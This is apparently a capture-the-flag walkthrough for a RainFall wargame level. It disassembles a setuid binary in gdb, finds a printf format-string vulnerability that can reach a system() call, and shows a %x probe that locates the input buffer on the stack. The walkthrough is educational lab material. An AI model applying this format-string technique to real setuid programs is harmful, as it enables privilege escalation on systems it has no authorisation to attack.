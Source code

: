 # level3 walkthrough
Given setuid binary, lets disassemble it:

    (gdb) disass main
    Dump of assembler code for function main:
    0x080484a7 <+0>:	push   ebp
    0x080484a8 <+1>:	mov    ebp,esp
    0x080484aa <+3>:	and    esp,0xfffffff0
    0x080484ad <+6>:	call   0x8048457 <n>
    0x080484b2 <+11>:	leave
    0x080484b3 <+12>:	ret
    End of assembler dump.

"n" function called with no arguments, lets disassemble it:

    (gdb) disass n
    Dump of assembler code for function n:
    0x08048457 <+0>:	push   ebp
    0x08048458 <+1>:	mov    ebp,esp
    0x0804845a <+3>:	sub    esp,0x218
    0x08048460 <+9>:	mov    eax,ds:0x8049804
    0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
    0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
    0x08048471 <+26>:	lea    eax,[ebp-0x208]
    0x08048477 <+32>:	mov    DWORD PTR [esp],eax
    0x0804847a <+35>:	call   0x8048350 <fgets@plt>
    0x0804847f <+40>:	lea    eax,[ebp-0x208]
    0x08048485 <+46>:	mov    DWORD PTR [esp],eax
    0x08048488 <+49>:	call   0x8048444 <p>
    0x0804848d <+54>:	mov    eax,ds:0x8049810
    0x08048492 <+59>:	cmp    eax,0x1025544
    0x08048497 <+64>:	jne    0x80484a5 <n+78>
    0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
    0x080484a0 <+73>:	call   0x8048360 <system@plt>
    0x080484a5 <+78>:	leave
    0x080484a6 <+79>:	ret
    End of assembler dump.

"n" function looks similar to the previous level, but there is "p" function called instead of printf, lets disassemble this function:

    (gdb) disass p
    Dump of assembler code for function p:
    0x08048444 <+0>:	push   ebp
    0x08048445 <+1>:	mov    ebp,esp
    0x08048447 <+3>:	sub    esp,0x18
    0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
    0x0804844d <+9>:	mov    DWORD PTR [esp],eax
    0x08048450 <+12>:	call   0x8048340 <printf@plt>
    0x08048455 <+17>:	leave
    0x08048456 <+18>:	ret
    End of assembler dump.

Here is the same vulnerable printf call with buffer argument as format string.
This binary also already have exploit in p+73 which would help us to get next flag.
// The problem is that our input goes into buffer, not on stack
    level4@RainFall:~$ ./level4
    AAAABBBBCCCDDD %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
    AAAABBBBCCCDDD b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 42424242 44434343 25204444 78252078
